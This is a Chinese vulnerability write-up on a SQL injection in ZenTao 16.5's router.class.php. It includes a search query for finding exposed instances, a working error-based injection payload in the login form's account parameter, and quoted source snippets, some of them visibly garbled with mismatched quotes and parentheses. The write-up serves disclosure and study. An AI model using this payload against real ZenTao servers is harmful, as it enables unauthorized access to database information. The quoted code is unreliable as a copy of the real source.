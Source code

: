 # 禅道 16.5 router.class.php SQL注入漏洞

## 漏洞描述

> 由于 `router.class.php`**存在的sql注入,** 导致服务器的敏感信息泄露

## 测绘搜索

app="易软天创-禅道系统"

## 复现POC

```
POST /user-login.html


account=admin%27+and+%28select+extractvalue%281%2Cconcat%280x7e%2C%28select+user%28%29%29%2C0x7e%29%29%29%23

```

account 参数就是我们登录禅道的时候输入的账号



## 具体实现

> 1. 登录界面
>
> ![image-20230603214223790](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230603214223790.png)
>
> 2. 注入payload后, 泄露的信息( **Response**)
>
>    ![image-20230603214431663](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230603214431663.png)
>
>    

## 源文件(浅显查看)

这个漏洞来自于 `framework/base/router.class.php` , 从 **702行**开始看两个比较关键的.

```java
			$vision = $this->dbh->query("SELECT * FROM" . TABLE_CONFIG . "WHERE 
 owner = 'account' AND 'key' = 'vision' LIMIT 1"->fetch();

```

```java
			$user = $this->dbh->query("SELECT * FROM " . TABLEUSER . "WHERE 
 account = '$account' AND deleted = '0' LIMIT 1) -> fetch();
```



接着查看`dao.class.php`, 发现`account参数`使用了`quote方法`

```java
public function quote($value)
{
  if($this -> magicQuote) $value = stripslashes($value);
  return $this -> dbh ->quote((string)$value);
}
  
```

然后在进入到 `router.class.php`, 查看

![image-20230603220130156](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230603220130156.png)

由此报错, 可以判断sql注入



















